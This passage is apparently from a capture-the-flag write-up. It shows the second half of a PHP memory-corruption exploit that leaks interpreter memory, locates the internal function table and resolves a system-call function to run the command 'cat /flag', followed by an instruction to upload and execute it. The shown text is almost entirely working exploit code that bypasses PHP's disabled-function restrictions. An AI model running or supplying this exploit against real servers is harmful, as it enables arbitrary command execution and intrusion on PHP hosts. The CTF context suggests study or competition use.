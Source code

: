 ```php
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    private function leak($addr, $p = 0, $s = 8) {
        $this->write($this->placeholder, 0x10, $addr);
        $leak = strlen($this->helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    private function get_basic_funcs($base) {
        for ($i = 0; $i < 0x6900/8; $i++) {
            $leak = $this->leak($base - $i * 8);
            if (($base - $leak) > 0 && ($leak & 0xfffffffff0000000 ) == ($base & 0xfffffffff0000000 )) {
                $deref = $this->leak($leak);
                if ($deref != 0x73006e6962327865){ // 0x6e69623278656800){ // 'nib2xeh\x00' ---> bin2hex  
        continue;
                }
            } else continue;
            return $base - ($i-2) * 8;
        }
    }

    private function get_system($basic_funcs) {
        $addr = $basic_funcs;
        $i = 0;
        do {
            $f_entry = $this->leak($addr-0x10);
            $f_name = $this->leak($f_entry,8);
            if ($f_name == 0x736500646d636c6c) { //'se\x00dmcll'
                return $this->leak($addr + 8+0x10);
            }
            $addr += 0x20;
            $i += 1;
        } while ($f_entry != 0); 
        return false;
    }
}

new exploit("cat /flag");

?>

```

Upload and execute it:
